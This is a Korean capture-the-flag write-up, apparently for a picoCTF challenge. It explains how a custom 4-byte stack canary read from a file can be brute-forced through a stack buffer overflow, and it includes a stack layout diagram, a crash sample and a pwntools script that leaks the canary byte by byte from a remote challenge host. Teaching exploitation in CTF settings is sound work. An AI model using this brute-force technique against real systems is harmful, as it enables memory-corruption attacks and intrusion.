 # Exploitation
문제를 풀기에 앞서 `checksec`으로 바이너리에 적용된 보호기법을 확인해보면, 스택 카나리는 비활성화되어 있습니다. 그러나 소스코드를 살펴보면, **`canary.txt` 에서 4바이트만큼 읽어와 해당 값을 스택 카나리처럼 활용하고 있음을 알 수 있습니다.**
<br />

카나리는 스택 스매싱 공격으로부터 이를 탐지하고 바이너리를 보호합니다. 구현된 스택 카나리는 버퍼보다 높은 주소에 있음을 알고 있고, `canary.txt`에서 **정적 데이터**를 4바이트 읽어와 사용합니다. 따라서 스택 버퍼오버플로우 취약점을 이용해서 카나리를 **무차별 대입 공격**으로 알아낼 수 있습니다.

<br />

## 1. 오프셋 확인하기
```bash
|------ Low Address ------|
|        count  0x4       | -> [ebp-0x94] ~ [ebp-0x91]
|-------------------------|
|       length  0x40      | -> [ebp-0x90] ~ [ebp-0x51]
|-------------------------|
|          buf  0x40      | -> [ebp-0x50] ~ [ebp-0x11]
|-------------------------|
|       canary  0x4       | -> [ebp-0x10] ~ [ebp-0xd]
|-------------------------|
|            x  0x4       | -> [ebp-0xc] ~ [ebp-0x9]
|-------------------------|
|        dummy  0x8       | -> [ebp-0x8] ~ [ebp-0x1]
|-------------------------|
|          ebp  0x4       | -> [ebp-0x0] ~ [ebp+0x3]
|-------------------------|
|          ret  0x4       | -> [ebp+0x4]
|------ High Address -----|
```
카나리의 값을 하나씩 대입할 것이기에 정확한 오프셋을 알아야 합니다. 위 스택 구조로 버퍼에서부터 카나리까지의 오프셋은 `0x40` 인 것을 알 수 있습니다.

<br />

## 2. 무차별 대입 공격으로 카나리 유출하기
무차별 대입 공격은 값을 대입했을 때, **프로그램의 결과에 따라 참과 거짓을 분별하여 값을 유출하는 공격 방식**입니다. 카나리를 오염시키면 프로그램은 **경고 문자열을 출력**하고, 강제 종료를 합니다.
```bash
$ ./vuln
How Many Bytes will You Write Into the Buffer?
> 100
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
***** Stack Smashing Detected ***** : Canary Value Corrupt!
```
위 정보들을 가지고 페이로드를 작성할 수 있습니다. 

```python
from pwn import *

context.log_level = "error"

cnry = b""
for i in range(4):
    for c in range(256): 
        # p = process("./vuln")
        p = remote("saturn.picoctf.net", 61149)

        p.sendafter(b">", b"100\n")
        p.sendafter(b">", b"A"*0x40+cnry+bytes([c]))

        if b"Ok..." in p.recvall():
            cnry += bytes([c])
            print(f"[+] Found Canary: {cnry}")
```